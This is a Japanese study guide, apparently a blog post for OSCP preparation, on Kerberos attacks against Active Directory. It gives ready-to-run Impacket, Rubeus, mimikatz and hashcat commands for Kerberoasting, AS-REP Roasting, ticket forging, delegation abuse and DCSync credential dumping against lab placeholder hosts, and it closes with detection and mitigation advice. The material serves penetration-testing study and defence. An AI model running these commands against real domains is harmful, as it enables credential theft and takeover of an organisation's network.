









## TL;DR

Kerberos は Windows Active Directory 環境の中心的な認証プロトコルです。OSCP で AD マシンを攻略する際、**チケットベースの認証の仕組みを理解することが攻撃の起点になります**。本記事では、試験に出やすい主要な Kerberos 攻撃手法を仕組み・条件・コマンド例とともに整理します。

---

## Kerberos の基本構造

### 登場人物

| 用語 | 役割 |
|---|---|
| **KDC (Key Distribution Center)** | ドメインコントローラー上で動作する認証サーバー。AS と TGS の 2 機能を持つ |
| **AS (Authentication Service)** | 最初の認証を行い TGT を発行する |
| **TGS (Ticket Granting Service)** | TGT を受け取りサービスチケット (ST) を発行する |
| **TGT (Ticket Granting Ticket)** | ユーザーが最初に取得する「認証済み証明書」。有効期限は通常 10 時間 |
| **ST / TGS チケット** | 特定サービスへのアクセスに使う一時的なチケット |
| **SPN (Service Principal Name)** | サービスを一意に識別する名前。例: `MSSQLSvc/db.corp.local:1433` |
| **PAC (Privilege Attribute Certificate)** | チケット内に含まれるユーザーのグループ情報。権限確認に使われる |

### 正常な認証フロー



> **重要ポイント:** KDC はサービスチケットを **サービスアカウントのパスワードハッシュで暗号化** して返します。攻撃者がこのチケットを入手できれば、オフラインでパスワードクラックが可能です (Kerberoasting)。

---

## OSCP で頻出の Kerberos 攻撃テクニック早見表

| 攻撃手法 | 必要な条件 | 得られるもの | ツール |
|---|---|---|---|
| AS-REP Roasting | 事前認証無効アカウントの存在 | パスワードハッシュ (クラック用) | GetNPUsers.py |
| Kerberoasting | 有効なドメイン資格情報 + SPN 付きアカウント | サービスアカウントのパスワードハッシュ | GetUserSPNs.py |
| Pass-the-Ticket | 有効な TGT / ST の所持 | 別ユーザーとしての認証 | Rubeus / mimikatz |
| Overpass-the-Hash | NTLM ハッシュの所持 | Kerberos TGT の取得 | Rubeus / mimikatz |
| Golden Ticket | krbtgt ハッシュの所持 | ドメイン内任意ユーザーへのなりすまし (永続) | mimikatz / ticketer.py |
| Silver Ticket | サービスアカウントハッシュの所持 | KDC を経由しないサービスアクセス | mimikatz / ticketer.py |
| S4U2Self / S4U2Proxy | 委任設定の悪用 | 別ユーザーのサービスチケット取得 | Rubeus / getST.py |

---

## 1. AS-REP Roasting

### 仕組み

`DONT_REQUIRE_PREAUTH` が設定されたアカウントは、**パスワードなしで AS-REQ を送信** できます。KDC は AS-REP を返しますが、その一部はユーザーのパスワードハッシュで暗号化されているため、オフラインクラックが可能です。



### 攻撃条件

- ターゲットに `DONT_REQUIRE_PREAUTH` が設定されたユーザーアカウントが存在する
- ドメイン資格情報は**不要**（ユーザーリストのみで攻撃可能）

### コマンド例

```bash
# ユーザーリストを指定してハッシュを取得 (資格情報なし)
GetNPUsers.py corp.local/ -usersfile users.txt -no-pass -dc-ip 10.10.10.100 -format hashcat -outputfile asrep_hashes.txt

# 有効なドメイン資格情報で全対象ユーザーを検索
GetNPUsers.py corp.local/jsmith:Password1 -dc-ip 10.10.10.100 -format hashcat -outputfile asrep_hashes.txt

# ハッシュクラック
hashcat -m 18200 asrep_hashes.txt /usr/share/wordlists/rockyou.txt
hashcat -m 18200 asrep_hashes.txt /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule
```

### OSCP での使いどころ

> 初期偵察でドメインユーザーリストが取れたら、まず AS-REP Roasting を試す。認証情報不要で弱いパスワードのアカウントを発見できる。

---

## 2. Kerberoasting

### 仕組み

SPN が登録されたサービスアカウントのTGSチケットをリクエストし、サービスアカウントのパスワードハッシュで暗号化されたチケットをオフラインクラックします。



### 攻撃条件

- **有効なドメイン資格情報**が必要（任意のドメインユーザー）
- SPN が設定されたサービスアカウントが存在する

### コマンド例

```bash
# SPN アカウント一覧を表示（チケットはリクエストしない）
GetUserSPNs.py corp.local/jsmith:Password1 -dc-ip 10.10.10.100

# 全 SPN ハッシュをリクエストして保存
GetUserSPNs.py corp.local/jsmith:Password1 -dc-ip 10.10.10.100 -request -outputfile kerberoast_hashes.txt

# 特定ユーザーのみを対象にする
GetUserSPNs.py corp.local/jsmith:Password1 -dc-ip 10.10.10.100 -request-user svc_mssql

# NTLM ハッシュで認証 (Pass-the-Hash)
GetUserSPNs.py corp.local/jsmith -hashes :NTLMHASH -dc-ip 10.10.10.100 -request -outputfile kerberoast_hashes.txt

# ハッシュクラック (RC4 = etype 23)
hashcat -m 13100 kerberoast_hashes.txt /usr/share/wordlists/rockyou.txt

# ハッシュクラック (AES256 = etype 18)
hashcat -m 19700 kerberoast_hashes.txt /usr/share/wordlists/rockyou.txt
```

### OSCP での使いどころ

> ドメインユーザーの資格情報を取ったら必ず Kerberoasting を試す。サービスアカウントは権限が高いことが多く、特権昇格のステップになる。

---

## 3. Pass-the-Ticket (PtT)

### 仕組み

メモリ上の Kerberos チケット (TGT または ST) を抽出し、別のセッションやホストでインポートして認証を再利用します。パスワードやハッシュは不要で、**チケット自体が認証情報**になります。



### コマンド例

```bash
# --- Rubeus (Windows) ---

# 現在のセッションの全チケットをダンプ
Rubeus.exe dump /nowrap

# 特定ユーザーのチケットをダンプ (管理者権限が必要)
Rubeus.exe dump /user:Administrator /nowrap

# チケットをインポート
Rubeus.exe ptt /ticket:<base64_ticket>

# --- mimikatz (Windows) ---
# チケットを .kirbi ファイルにエクスポート
sekurlsa::tickets /export

# .kirbi ファイルをインポート
kerberos::ptt ticket.kirbi

# --- Linux (Impacket) ---
# .ccache 形式のチケットを使って認証
export KRB5CCNAME=/path/to/ticket.ccache
psexec.py -k -no-pass corp.local/Administrator@dc01.corp.local
smbclient.py -k -no-pass corp.local/Administrator@dc01.corp.local
```

### OSCP での使いどころ

> RDP セッションや侵害済みマシンのメモリから TGT を取り出し、別マシンへのラテラルムーブメントに使う。SMB 経由での接続やリモートコマンド実行に直結する。

---

## 4. Overpass-the-Hash (Pass-the-Key)

### 仕組み

NTLM ハッシュ (または AES キー) から Kerberos TGT を取得します。NTLM 認証が無効化された環境でも Kerberos 経由でラテラルムーブメントが可能です。



### コマンド例

```bash
# --- Rubeus (Windows) ---
# NTLM ハッシュから TGT を取得してインポート
Rubeus.exe asktgt /user:Administrator /rc4:<NTLM_HASH> /ptt

# AES キーを使う場合 (より検知されにくい)
Rubeus.exe asktgt /user:Administrator /aes256:<AES256_KEY> /opsec /ptt

# --- mimikatz (Windows) ---
sekurlsa::pth /user:Administrator /domain:corp.local /ntlm:<NTLM_HASH> /run:cmd.exe

# --- Impacket (Linux) ---
# NTLM ハッシュで TGT を取得
getTGT.py corp.local/Administrator -hashes :<NTLM_HASH> -dc-ip 10.10.10.100

# 取得した TGT を使って接続
export KRB5CCNAME=Administrator.ccache
psexec.py -k -no-pass corp.local/Administrator@dc01.corp.local
```

### OSCP での使いどころ

> Pass-the-Hash が使えない場面 (NTLM が制限されている環境) で有効。NTLM ハッシュさえあれば Kerberos 認証に切り替えてラテラルムーブメントできる。

---

## 5. Golden Ticket

### 仕組み

`krbtgt` アカウントのパスワードハッシュを使って、**任意のユーザー・任意のグループ**の TGT を偽造します。KDC が TGT を検証する際に使うキーが `krbtgt` ハッシュなので、これを持っていればドメイン内で無制限の認証が可能です。



### 攻撃条件

- `krbtgt` アカウントの **NTLM ハッシュ** (または AES キー) が必要
- 通常は DC への権限昇格後 (DCSync や NTDS.dit ダンプ) に取得

### コマンド例

```bash
# --- krbtgt ハッシュの取得 ---

# DCSync 攻撃 (Domain Admin 権限が必要)
secretsdump.py corp.local/Administrator:Password1@10.10.10.100
secretsdump.py -hashes :<NTLM_HASH> corp.local/Administrator@10.10.10.100

# mimikatz で DCSync
lsadump::dcsync /domain:corp.local /user:krbtgt

# --- Golden Ticket の作成 ---

# mimikatz (Windows)
kerberos::golden /domain:corp.local /sid:S-1-5-21-XXXXXX /krbtgt:<KRBTGT_HASH> /user:FakeAdmin /id:500 /ptt

# ticketer.py (Linux / Impacket)
ticketer.py -nthash <KRBTGT_NTLM_HASH> -domain-sid S-1-5-21-XXXXXX -domain corp.local FakeAdmin

# チケットを使って接続
export KRB5CCNAME=FakeAdmin.ccache
psexec.py -k -no-pass corp.local/FakeAdmin@dc01.corp.local
wmiexec.py -k -no-pass corp.local/FakeAdmin@dc01.corp.local
```

### 必要な情報の取得

```bash
# ドメイン SID の確認
lookupsid.py corp.local/jsmith:Password1@10.10.10.100 0

# PowerShell で確認 (ドメイン参加マシン上)
Get-ADDomain | Select-Object SID
```

### OSCP での使いどころ

> DC 権限を取った後の**永続化・後処理**として使う。krbtgt パスワードをリセットしない限り有効なので、試験中の再アクセスに使える。

---

## 6. Silver Ticket

### 仕組み

**特定サービスアカウントのハッシュ**を使って、そのサービス専用の ST を偽造します。KDC を経由しないため、ログが残りにくいのが特徴です。



### Golden Ticket との比較

| | Golden Ticket | Silver Ticket |
|---|---|---|
| **必要なハッシュ** | krbtgt | サービスアカウント |
| **スコープ** | ドメイン全体 | 特定サービスのみ |
| **KDC への通信** | 必要 (TGS-REQ) | 不要 |
| **検知されにくさ** | 低 (KDC ログに残る) | 高 (KDC を経由しない) |

### コマンド例

```bash
# --- mimikatz (Windows) ---
# CIFS (SMB) サービスへの Silver Ticket
kerberos::golden /domain:corp.local /sid:S-1-5-21-XXXXXX /target:fileserver.corp.local /service:cifs /rc4:<SERVICE_ACCOUNT_NTLM> /user:FakeAdmin /ptt

# MSSQL サービスへの Silver Ticket
kerberos::golden /domain:corp.local /sid:S-1-5-21-XXXXXX /target:db.corp.local /service:MSSQLSvc /rc4:<SVC_MSSQL_NTLM> /user:FakeAdmin /ptt

# --- ticketer.py (Linux / Impacket) ---
ticketer.py -nthash <SERVICE_NTLM> -domain-sid S-1-5-21-XXXXXX -domain corp.local -spn cifs/fileserver.corp.local FakeAdmin

export KRB5CCNAME=FakeAdmin.ccache
smbclient.py -k -no-pass corp.local/FakeAdmin@fileserver.corp.local
```

### OSCP での使いどころ

> サービスアカウントのハッシュを入手したとき、KDC を経由せずにそのサービスへアクセスするために使う。SMB・MSSQL・HTTP など対応サービスが広い。

---

## 7. Kerberos Delegation の悪用

### Unconstrained Delegation (非制約委任)

`TrustedForDelegation` フラグが設定されたコンピューターは、接続してきたユーザーの TGT をメモリに保持します。攻撃者がこのマシンを侵害すると、管理者などの TGT を窃取できます。

```bash
# Unconstrained Delegation が設定されたコンピューターを探す
# PowerShell
Get-ADComputer -Filter {TrustedForDelegation -eq $true} -Properties TrustedForDelegation

# Rubeus でメモリ上の TGT をダンプ (侵害済みマシン上)
Rubeus.exe dump /nowrap

# Printer Bug / SpoolSample でDCの TGT を強制送信させる
Rubeus.exe monitor /interval:5 /nowrap
SpoolSample.exe <DC_IP> <compromised_host_IP>
```

### Constrained Delegation (制約委任) の悪用

`msDS-AllowedToDelegateTo` が設定されたアカウントは、指定されたサービスへのS4U2Proxy が可能です。

```bash
# 制約委任設定アカウントを探す
Get-ADUser -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDelegateTo

# getST.py で任意ユーザーの ST を取得 (Impacket)
getST.py corp.local/svc_constrained:Password1 -spn cifs/target.corp.local -impersonate Administrator -dc-ip 10.10.10.100

export KRB5CCNAME=Administrator@cifs_target.corp.local@CORP.LOCAL.ccache
smbclient.py -k -no-pass corp.local/Administrator@target.corp.local
```

---

## 8. 攻撃チェーン: OSCP 典型シナリオ

### シナリオ A: 初期侵入 → 横展開



### シナリオ B: ハッシュのみで横展開



---

## 攻撃手法の比較と選択基準

```
状況: 初期偵察段階、資格情報なし
→ AS-REP Roasting (ユーザーリストのみで試行)

状況: 有効なドメインユーザーを取得した
→ Kerberoasting (SPN 付きサービスアカウントのハッシュ収集)
→ AS-REP Roasting (認証情報ありで全対象スキャン)

状況: NTLM ハッシュを入手した
→ Pass-the-Hash (SMBExec / PsExec)
→ Overpass-the-Hash (NTLM → Kerberos TGT に変換)

状況: メモリ上のチケットが取れた
→ Pass-the-Ticket (別サービスへの認証に使用)

状況: サービスアカウントのハッシュを入手した
→ Silver Ticket (特定サービスへの直接アクセス)

状況: DC の権限を取った / krbtgt ハッシュを取得した
→ Golden Ticket (ドメイン永続化)
→ DCSync (全アカウントのハッシュダンプ)
```

---

## 重要コマンドチートシート

### 偵察・列挙

```bash
# ドメイン情報の収集
enum4linux-ng -A 10.10.10.100

# ユーザー列挙 (RID Cycling)
lookupsid.py corp.local/guest:@10.10.10.100

# LDAP でユーザー・SPN を列挙
ldapsearch -x -H ldap://10.10.10.100 -D "cn=jsmith,dc=corp,dc=local" -w Password1 \
  -b "dc=corp,dc=local" "(servicePrincipalName=*)" sAMAccountName servicePrincipalName

# bloodhound-python でパス解析
bloodhound-python -u jsmith -p Password1 -d corp.local -ns 10.10.10.100 -c all
```

### チケット操作

```bash
# Impacket: TGT を取得
getTGT.py corp.local/jsmith:Password1 -dc-ip 10.10.10.100

# Impacket: 特定サービスの ST を取得
getST.py corp.local/jsmith:Password1 -spn cifs/target.corp.local -dc-ip 10.10.10.100

# チケットを環境変数にセット
export KRB5CCNAME=/path/to/ticket.ccache

# チケットを使って各種接続
psexec.py -k -no-pass corp.local/jsmith@target.corp.local
wmiexec.py -k -no-pass corp.local/jsmith@target.corp.local
smbclient.py -k -no-pass corp.local/jsmith@target.corp.local
secretsdump.py -k -no-pass corp.local/jsmith@target.corp.local
```

### ハッシュダンプ

```bash
# DCSync (Domain Admin 権限が必要)
secretsdump.py corp.local/Administrator:Password1@10.10.10.100
secretsdump.py -hashes :<NTLM_HASH> corp.local/Administrator@10.10.10.100

# NTDS.dit からオフラインダンプ
secretsdump.py -ntds ntds.dit -system SYSTEM LOCAL

# mimikatz でインメモリダンプ
sekurlsa::logonpasswords
lsadump::dcsync /domain:corp.local /all
```

---

## 検知と防御 (Blue Team 視点)

| 攻撃手法 | イベント ID | 検知シグナル |
|---|---|---|
| AS-REP Roasting | 4768 | エラーコード 0x18 なし、事前認証なしの AS-REQ |
| Kerberoasting | 4769 | 暗号化タイプ 0x17 (RC4) のTGS-REQ、短時間に大量の TGS |
| Pass-the-Ticket | 4768/4769 | 異常な送信元 IP からのチケット使用 |
| Golden Ticket | 4769/4672 | ドメイン SID が既知の DC に一致しない TGT |
| Silver Ticket | 4624 | KDC を経由しない認証、チケット有効期限が異常 |

### 主な緩和策

```powershell
# 事前認証なしアカウントを監査
Get-ADUser -Filter {DoesNotRequirePreAuth -eq $true} -Properties DoesNotRequirePreAuth

# Kerberoastable アカウントを監査
Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName, PasswordLastSet |
    Select Name, PasswordLastSet, ServicePrincipalName

# Protected Users グループへの追加 (管理者・高権限ユーザー)
Add-ADGroupMember "Protected Users" -Members Administrator

# krbtgt パスワードのリセット (Golden Ticket の無効化)
# ※ 2 回リセットが必要 (古い krbtgt キーも無効化するため)
```

---

## OSCP 試験対策のポイント

### 試験で意識すること

1. **まず AS-REP Roasting を試す** — 資格情報なしで弱いパスワードのアカウントを見つけられる
2. **ドメインユーザーを取ったら即 Kerberoasting** — サービスアカウントは権限が高いことが多い
3. **NTLM ハッシュは捨てない** — Overpass-the-Hash で Kerberos に変換できる
4. **チケットはファイルに保存しておく** — `/tmp/*.ccache` に保存して後で再利用
5. **BloodHound でパスを確認** — 権限委任の設定ミスを視覚的に把握する
6. **DC を取ったら DCSync で krbtgt を抜く** — Golden Ticket で永続化

### よくある失敗パターン

- **時刻同期ずれ** — Kerberos は 5 分以内の時刻差を要求する。`ntpdate` / `timedatectl` で同期する
- **DNS 解決** — ホスト名ベースの認証が多い。`/etc/hosts` に DC のエントリを追加する
- **etype の指定ミス** — RC4 ハッシュが取れない場合は AES ハッシュで試す
- **チケットのキャッシュ管理** — `klist` で現在のチケットを確認し、不要なものは `kdestroy` で削除

```bash
# 時刻同期
sudo ntpdate 10.10.10.100

# /etc/hosts にエントリ追加
echo "10.10.10.100 dc01.corp.local corp.local" | sudo tee -a /etc/hosts

# 現在のチケットを確認
klist

# チケットをクリア
kdestroy
```

---

## 関連記事

- [GetNPUsers.py — AS-REP Roasting 完全ガイド](/posts/tech-getnpusers-asrep-roasting-ja/)
- [GetUserSPNs.py — Kerberoasting 完全ガイド](/posts/tech-getuserspns-kerberoasting-ja/)
- [RBCD 攻撃ガイド](/posts/tech-rbcd-attack-guide-ja/)
- [ADCS 攻撃ガイド (ESC1〜16)](/posts/tech-adcs-esc-attack-guide-ja/)
- [NTLM Relay 攻撃ガイド](/posts/tech-ntlmrelayx-attack-guide-ja/)

---

## 参考資料

- [Microsoft — How Kerberos Authentication Works](https://learn.microsoft.com/en-us/windows-server/security/kerberos/kerberos-authentication-overview)
- [Harmj0y — Kerberoasting Without Mimikatz](https://www.harmj0y.net/blog/powershell/kerberoasting-without-mimikatz/)
- [Impacket — GitHub](https://github.com/fortra/impacket)
- [Rubeus — GitHub](https://github.com/GhostPack/Rubeus)
- [The Hacker Recipes — Kerberos](https://www.thehacker.recipes/ad/movement/kerberos)
- [PayloadsAllTheThings — Kerberos](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md)
